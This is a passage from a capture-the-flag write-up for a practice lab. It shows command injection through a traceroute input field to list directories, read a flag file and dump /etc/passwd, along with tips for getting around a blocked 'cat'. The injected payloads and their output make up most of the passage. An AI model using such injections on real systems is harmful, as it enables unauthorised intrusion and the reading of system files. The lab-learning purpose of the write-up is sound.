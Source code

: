 Below are some of the commands you can use instead of cat:
- more
- less
- grep '[a-zA-Z0-9]'

command = 127.0.0.1; cd ..; cd html; ls; cd passwords; ls; more FLAG.txt;
``` sh
traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets
 1  localhost (127.0.0.1)  0.020 ms  0.014 ms  0.007 ms
index.html
morty.png
passwords
robots.txt
FLAG.txt
passwords.html
::::::::::::::
FLAG.txt
::::::::::::::
FLAG{Yeah d- just don't do it.} - 10 Points
```

Now we have 2 flags and 20 points.

| FLAG | POINTS |
| ---- | ---- |
| FLAG{Whoa this is unexpected} - 10 Points | 10/130 |
| FLAG{Yeah d- just don't do it.} - 10 Points | 20/130 |

- ;more /etc/passwd;

We can acutally not even provide an ip address as shown above. The /etc/passwd contains user accounts. Below is the format of each line.

- **Username:** It is used when user logs in. It should be between 1 and 32 characters in length.
- **Password:** An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to computes the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file.
- **User ID (UID):** Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
- **Group ID (GID):** The primary group ID (stored in /etc/group file)
- **User ID Info:** The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
- **Home directory:** The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
- **Command/shell:** The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

``` sh
::::::::::::::
/etc/passwd
::::::::::::::
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
```
